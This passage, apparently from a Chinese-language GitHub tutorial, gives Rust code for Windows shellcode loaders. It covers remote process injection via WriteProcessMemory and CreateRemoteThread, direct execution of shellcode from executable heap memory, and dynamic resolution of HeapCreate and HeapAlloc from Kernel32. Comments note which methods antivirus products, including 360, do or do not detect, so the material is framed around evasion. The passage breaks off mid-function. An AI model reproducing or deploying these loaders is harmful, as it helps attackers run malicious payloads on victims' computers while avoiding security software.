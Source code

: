 ```rust
    if remote_memory.is_null() {
        return Err(Error::last_os_error());
    }

    let mut bytes_written = 0;
    if WriteProcessMemory(
        process,
        remote_memory,
        code.as_ptr() as *const _,
        code.len(),
        &mut bytes_written,
    ) == 0
    {
        return Err(Error::last_os_error());
    }

    let thread = CreateRemoteThread(
        process,
        null_mut(),
        0,
        Some(std::mem::transmute(remote_memory)),
        null_mut(),
        0,
        null_mut(),
    );
    if thread.is_null() {
        return Err(Error::last_os_error());
    }

    Ok(())
}
```
### 直接加载
 加载shellcode 到内存中执行，杀软一般不会检测
```rust
pub unsafe  fn exec(code: &[u8]){
    let heap = HeapCreate(0x40000, 0, 0);
    let ptr = HeapAlloc(heap, 8, code.len());
    if GetLastError() == 0 {
        std::ptr::copy(
            code.as_ptr() as *const u8,
            ptr as *mut u8,
            code.len(),
        );
        let exec_function = transmute::<*mut c_void, fn()>(ptr);
        exec_function();
    }
}
```
### DLL 加载
  动态加载dll，加载 HeapCreate 和 HeapAlloc 函数, 实现shellcode 执行。360会检测dll加载函数
```rust
pub unsafe fn dll_exec(code: &[u8]) {
    let lib = Library::new("Kernel32.dll").unwrap();
    // 获取HeapCreate函数
    let heap_create: Symbol<unsafe extern "system" fn(DWORD, usize, usize) -> HeapHandle> = lib.get(b"HeapCreate").unwrap();
    // 获取HeapAlloc函数
    let heap_alloc: Symbol<unsafe extern "system" fn(HeapHandle, HEAP_FLAGS, usize) ->  *mut std::ffi::c_void> = lib.get(b"HeapAlloc").unwrap();
    // 创建 堆空间
    let heap = heap_create(0x40000, 0, 0);
```